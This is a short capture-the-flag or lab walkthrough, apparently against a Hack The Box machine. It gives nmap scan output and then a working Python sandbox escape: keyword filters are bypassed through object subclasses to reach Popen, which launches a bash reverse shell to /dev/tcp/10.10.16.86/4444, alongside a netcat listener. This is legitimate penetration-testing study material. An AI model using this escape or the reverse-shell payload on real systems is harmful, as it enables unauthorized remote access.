 ```
──(kali㉿kali)-[~]
└─$ nmap -sV 10.10.11.62             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-27 06:29 EDT
Nmap scan report for 10.10.11.62
Host is up (0.64s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.30 seconds

```

- The port 5000 is open and running Gunicorn 20.0.4
- visiting the website gives a code editor
- some of the keywords are restricted,  like import, os, subprocess this prevent from accessing the shell.
- there are option to run and save the codes.
- Now i some how have to see all the available subclasses of object i can use.
- `print([1,2,3].__class__)` gives me the class of the list in python
- if i can some how use popen which is used to execute commands in a new process.
- i can't use the import so i have to use it the hard way.
- `print((()).__class__.__bases__[0].__subclasses__())`. The bases give a tuple which contain class object. subclasses function of object gives me all the available subclasses i can use.
- This results in a tuple i have to find the index of popen from this. The output can not be completely seen in the editor so  i intercepted the request and copied all to the terminal. finding the index of subprocess popen was easy by using the Ctrl + F in a text editor.
- Using this popen we can get a reverse shell : `nc -lvnp 4444`
- First start a netcat listner: 
```
print([].__class__.__bases__[0].__subclasses__()[317](
    "bash -c 'bash -i >& /dev/tcp/10.10.16.86/4444 0>&1'", shell=True, stdout=-1).communicate())
```
- With that i got a reverse shell!. But it took me a lot of research especially in python sandbox escape.